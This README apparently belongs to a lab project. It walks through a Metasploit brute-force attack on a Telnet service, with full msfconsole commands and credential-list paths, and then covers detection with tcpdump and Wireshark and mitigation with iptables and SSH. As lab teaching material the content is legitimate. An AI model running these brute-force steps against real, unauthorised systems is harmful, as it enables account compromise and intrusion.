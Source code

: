 # Telnet-Brute-Force-Attack-using-Metasploit-with-Threat-Detection-via-Wireshark
This project demonstrates a brute-force attack on a Telnet service using Metasploit, a penetration testing framework. The goal is to understand how brute-force attacks work, how attackers can exploit weak Telnet credentials, and how to monitor and detect such attacks using a network analysis tool like Wireshark.
# Tools & Environment

Attacker: Kali Linux with Metasploit (msfconsole) — example IP 10.196.201.215.

Victim: Ubuntu/Linux with Telnet service enabled — example IP 10.196.201.145, port 23.

Network analysis: Wireshark / tcpdump to capture Telnet control traffic.

Client: telnet or other Telnet clients to verify credentials.

Mitigation: iptables for immediate blocking; longer-term use secure alternatives.

# quick background

Telnet provides plaintext remote shell access on port 23 by default; usernames, passwords, and session data are unencrypted and visible to network captures.

Metasploit offers auxiliary/scanner/telnet/telnet_login to automate username/password guessing—useful for lab demonstrations of weak credentials.

# Environment prep

Ensure the victim’s Telnet server is running and reachable at 10.196.201.145.

On the attacker (Kali), prepare credential lists (one item per line):

/home/kali/user.txt — candidate usernames (e.g., cisco, analyst)

/home/kali/passwords.txt — candidate passwords (e.g., password, net_secPW)

# Attack — step by step

Start Metasploit:

msfconsole


Configure the Telnet brute-force scanner:

use auxiliary/scanner/telnet/telnet_login
set RHOSTS 10.196.201.145
set RPORT 23
set USER_FILE /home/kali/user.txt
set PASS_FILE /home/kali/passwords.txt
run


The module will try combinations and report successes (e.g., Success: cisco:password123).

Verify access manually:

telnet 10.196.201.145
# enter discovered username/password when prompted


Once logged in, run commands or create a proof file:

echo "Proof: accessed via Metasploit test" > hacked.txt


(Creating hacked.txt is a lab-only proof-of-access step.)

# Evidence capture & analysis (Wireshark / tcpdump)

Capture Telnet traffic on the victim or network tap:

sudo tcpdump -i eth0 -s 0 -w telnet_attack.pcap port 23


Open telnet_attack.pcap in Wireshark. Things to look for:

Plaintext username and password exchanges visible in the capture.

Repeated login attempts indicating brute-force behavior.

A successful login followed by shell commands or file creation (proof-of-access).

Automated timing — many attempts in a short window from one source IP.

Useful Wireshark filters:

tcp.port == 23 — show Telnet traffic.

Use Follow TCP Stream to view the full plaintext interaction for a selected connection.

# Detection indicators

High frequency of connection attempts from the same source IP to port 23.

Repeated failed login lines followed by a successful login.

Plaintext credentials visible in capture files — immediate proof of compromise.

Correlate timestamps between Metasploit output and packet captures to track timeline.

# Mitigation & recommendations
Immediate

Block the attacking IP:

sudo iptables -A INPUT -s <ATTACKER_IP> -p tcp --dport 23 -j DROP
sudo iptables -L INPUT -v -n


Disable Telnet service if not required:

sudo systemctl stop telnet.socket
sudo systemctl disable telnet.socket

Long-term

Replace Telnet with secure alternatives: SSH (SFTP/secure shell).

Enforce strong authentication and credential policies; disable weak accounts.

Use automated banning tools (fail2ban or similar) to block repeated failures.

Restrict remote administration to management networks or specific IPs.

Maintain centralized logging and periodic packet-capture reviews for suspicious behavior.

# Safety & ethics

Only perform these tests in a controlled lab environment or on systems where you have explicit authorization. Unauthorized scanning or brute-force attacks against production/public systems is illegal and unethical.

# Summary

This README guides a controlled Telnet brute-force demonstration using Metasploit, capturing cleartext evidence with Wireshark/tcpdump, verifying access via Telnet client, and applying immediate iptables blocking. The exercise highlights why Telnet is insecure and why secure remote-access practices (SSH, automated bans, restricted access) are essential.
